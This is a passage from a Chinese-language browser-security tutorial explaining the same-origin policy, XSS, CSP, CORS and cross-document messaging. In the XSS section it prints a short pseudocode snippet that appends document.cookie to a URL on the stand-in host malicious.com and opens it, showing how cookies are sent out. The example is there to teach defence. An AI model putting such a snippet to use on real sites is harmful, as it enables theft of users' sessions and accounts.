 ![](<https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png?wh=834*338>)

当这段HTML文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如Cookie、IndexDB、LoacalStorage等数据通过XSS的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。

以上就是一个非常典型的XSS攻击。为了解决XSS攻击，浏览器中引入了内容安全策略，称为CSP。**CSP的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码**。通过这些手段就可以大大减少XSS攻击。

### 2\. 跨域资源共享和跨文档消息机制

默认情况下，如果打开极客邦的官网页面，在官网页面中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻止其向InfoQ发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了**跨域资源共享（CORS）**，使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵DOM。不过在实际应用中，经常需要两个不同源的DOM之间进行通信，于是浏览器中又引入了**跨文档消息机制**，可以通过window.postMessage的JavaScript接口来和不同源的DOM进行通信。

## 总结

好了，今天就介绍到这里，下面我来总结下本文的主要内容。

同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

1. 页面中可以引用第三方资源，不过这也暴露了很多诸如XSS的安全问题，因此又在这种开放的基础之上引入了CSP来限制其自由程度。
2. 使用XMLHttpRequest和Fetch都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
3. 两个不同源的DOM是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。



## 思考时间

今天留给你的作业：你来总结一下同源策略、CSP和CORS之间的关系，这对于你理解浏览器的安全策略至关重要。

欢迎在留言区与我分享你的想法，也欢迎你在留言区记录你的思考过程。感谢阅读，如果你觉得这篇文章对你有帮助的话，也欢迎把它分享给更多的朋友。



